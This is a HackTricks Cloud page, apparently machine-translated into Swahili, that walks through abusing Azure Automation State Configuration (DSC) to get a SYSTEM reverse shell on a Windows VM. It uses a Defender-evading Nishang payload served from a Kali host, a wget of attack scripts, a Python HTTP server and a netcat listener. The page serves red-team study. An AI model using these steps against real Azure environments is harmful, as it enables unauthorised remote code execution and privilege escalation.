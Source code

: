 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Mchakato huu unahusisha kuanzisha miundombinu ya seva ya mbali ili kuhifadhi payload iliyobadilishwa ya Nishang `Invoke-PowerShellTcp.ps1`, inayoitwa `RevPS.ps1`, iliyoundwa ili kupita Windows Defender. Payload inatolewa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni inatekelezwa kupitia hatua kadhaa:

#### Step 1 — Create Files

* **Files Required:** Skripti mbili za PowerShell zinahitajika:
1. `reverse_shell_config.ps1`: Faili ya Desired State Configuration (DSC) inayopata na kutekeleza payload. Inapatikana kutoka [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripti ya kuchapisha usanidi kwa VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Vigezo na parameta katika faili hizi lazima zibadilishwe ili kufaa mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulisho vya seva/payload.

#### Step 2 — Zip Configuration File

* Faili `reverse_shell_config.ps1` inashirikiwa katika faili la `.zip`, ikifanya iwe tayari kwa uhamishaji kwenda kwenye Akaunti ya Hifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Weka Muktadha wa Hifadhi & Pakia

* Faili la muktadha lililoshonwa linapakiwa kwenye kontena la Hifadhi la Azure lililowekwa awali, azure-pentest, kwa kutumia cmdlet ya Azure Set-AzStorageBlobContent.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Seva ya Kali inashusha mzigo wa RevPS.ps1 kutoka kwenye hifadhi ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skripti inahaririwa ili kubaini VM ya Windows inayolengwa na bandari ya shell ya kurudi.

#### Hatua ya 5 — Chapisha Faili la Mipangilio

* Faili la mipangilio linafanywa kazi, na kusababisha skripti ya shell ya kurudi kupelekwa kwenye eneo lililotajwa kwenye VM ya Windows.

#### Hatua ya 6 — Kuweka Payload na Kuanzisha Listener

* Python SimpleHTTPServer inaanzishwa ili kuhifadhi payload, pamoja na listener ya Netcat kukamata muunganisho unaokuja.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Kazi iliyoandaliwa inatekeleza payload, ikipata haki za kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji wa mafanikio wa mchakato huu unafungua uwezekano mwingi wa hatua zaidi, kama vile kudondosha akidi au kupanua shambulio kwa VMs nyingi. Mwongozo unahimiza kujifunza na ubunifu endelevu katika eneo la Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
